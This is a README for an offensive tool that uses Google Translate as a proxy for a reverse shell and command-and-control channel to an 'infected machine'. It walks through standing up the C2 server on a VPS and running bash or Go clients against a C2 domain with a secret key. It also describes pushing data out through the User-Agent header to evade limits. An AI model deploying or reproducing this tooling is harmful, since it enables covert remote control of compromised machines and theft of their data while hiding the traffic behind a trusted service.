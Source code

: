 # GTRS - Google Translator Reverse Shell

This tools uses [Google Translator](https://translate.google.com) as a proxy to send arbitrary commands to an infected machine.
```
[INFECTED MACHINE] ==HTTPS==> [GOOGLE TRANSLATE] ==HTTP==> [C2] 
```

# Environment Configuration
First you need a VPS and a domain, for the domain you can get a free one on [Freenom](https://freenom.com/).

# Server 
Start the server.py on your VPS
```bash
python2.7 server.py
Server running on port: 80
Secret Key: e294a11e-bb6f-49ed-b03a-9ec42be55062
```
It will provide you secret key which will be used on the client.

# Client bash
Run the client on a computer with access to [Google Translator](https://translate.google.com), providing domain and the secret key generated by the server.

```bash
bash client.sh www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```
Now you have an interactive shell using named pipe files, **YES** you can `cd` into directories.

# Client Go
You first need to download the binarie or compile it, then the processe is equal of the bash client,
```bash
./client_Linux www.c2server.ml e294a11e-bb6f-49ed-b03a-9ec42be55062
```
With this client you have the hability to run it on Linux, Mac and Windows, but the client do not have a interactive shell yet.

# Poc 
[![CODE_IS_CHEAP_SHOW_ME_THE_DEMO](http://img.youtube.com/vi/02CFsE0k96E/0.jpg)](http://www.youtube.com/watch?v=02CFsE0k96E)

# Known issues 
 * ~~Google translate does not forward POST data, so there's a limit on the amount of data that your server can receive, for example, you'll probably not being able to read a big file like `.bashrc`.~~ `Problem fixed using User-Agent header to sent data`.
 * ~~The client script works on Mac an Linux, but on Linux you need to install the `xmllint` which is on `libxml2-utils`~~ `Problem fixed, now the client is write also in go.
 * It's not a problem, but I just don't know if there's a rate limit on Google Translator
